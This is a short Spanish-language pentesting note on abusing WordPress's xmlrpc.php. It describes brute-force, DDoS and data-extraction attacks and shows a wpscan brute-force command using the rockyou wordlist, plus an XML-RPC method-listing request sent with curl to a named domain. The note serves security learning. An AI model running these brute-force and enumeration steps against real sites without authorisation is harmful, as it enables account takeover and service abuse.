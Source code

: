 ----
- Tags: #wordpress #web
-----
El archivo xmlrpc.php es un archivo en WordPress que permite la comunicación y la interacción remota con el sitio mediante el protocolo XML-RPC. Proporciona una interfaz para realizar diversas operaciones, pero también puede ser un objetivo para posibles ataques de seguridad.
Algunos de los ataques más comunes asociados con xmlrpc.php incluyen:

1. Ataques de fuerza bruta: Los atacantes pueden utilizar el archivo xmlrpc.php para realizar ataques de fuerza bruta en los nombres de usuario y contraseñas de los usuarios de WordPress. Intentan adivinar credenciales válidas enviando múltiples solicitudes de inicio de sesión a través de XML-RPC. No se aplican las mismas restricciones de límite de intentos, por esta razón, xmlrpc.php ha sido utilizado en el pasado como una forma de evadir los mecanismos de seguridad que protegen el panel de login estándar.
    
2. Amplificación de ataque DDoS: Los atacantes pueden utilizar xmlrpc.php para llevar a cabo ataques de denegación de servicio distribuido (DDoS). Envían solicitudes masivas y maliciosas a xmlrpc.php, haciendo que el servidor procese una carga excesiva de solicitudes y agote los recursos.
    
3. Exfiltración de datos: Algunos ataques aprovechan xmlrpc.php para intentar extraer información sensible del sitio web, como publicaciones, comentarios o detalles de usuarios, a través de solicitudes XML-RPC maliciosas.
    
4. Inyección de contenido no deseado: Los atacantes pueden intentar utilizar xmlrpc.php para insertar contenido no deseado, como publicaciones o comentarios no deseados, en el sitio de WordPress.

### Ataque fuerza bruta xmlrpc con WPSCAN
```bash
wpscan --url http://localhost:31337 -U jesus -P /opt/rockyou.txt
```


### Ataque de fuerza bruta 

1. Creamos un archivo .xml con el siguiente contenido:
```xml
<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Este archivo servirá para ver la respuesta del servidor y listar los métodos disponibles.

2. Tramitar la petición enviando este archivo al servidor 
```bash
curl -s -X POST "https://miwifi.com/xmlrpc.php" -d@file.xml
```

- "-d@": indica el archivo que quieres adjuntar

3. Respuesta del servidor
```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
```